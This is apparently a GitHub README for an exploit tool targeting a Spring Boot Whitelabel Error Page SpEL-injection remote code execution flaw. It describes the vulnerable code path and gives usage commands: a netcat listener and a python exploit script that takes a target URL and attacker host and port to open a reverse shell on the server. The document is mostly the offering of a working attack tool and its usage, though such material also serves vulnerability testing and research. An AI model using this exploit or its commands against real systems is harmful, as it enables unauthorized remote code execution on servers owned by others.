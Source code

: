 # SpringBoot-whitelabel-error-rce EXP
[中文README_CN.md](README_CN.md)  
---

## Vulnerability Intro
1. There is an error in spring boot processing parameter value, and the process enters the `org.springframework.util.PropertyPlaceholderHelper` class

2. At this time, the parameter value in the URL will be parsed recursively using the `parseStringValue` method.

3. The content surrounded by `${}` will be parsed and executed as a SpEL expression by the `resolvePlaceholder` method of the `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` class, causing an RCE vulnerability.

---

## EXP Intro
Through this EXP, you can determine whether the vulnerability exists and rebound the shell.

First, for example, when accessing `/article?id=xxx`, the page will report an error with status code `500`: `Whitelabel Error Page`, you can use the current `POC & EXP` to try

---

## How to use
```shell
nc -lvvp 8088
python3 exp.py -lhost 127.0.0.1 -lport 8088 -t  "http://127.0.0.1:9091/article?id="
```
> -lhost: The listening host  
  -lport: The listening port  
  -t: The target URL(**Notice: Need to include host, port, path and parameter.**)

![](help.jpg)  
![](success.jpg)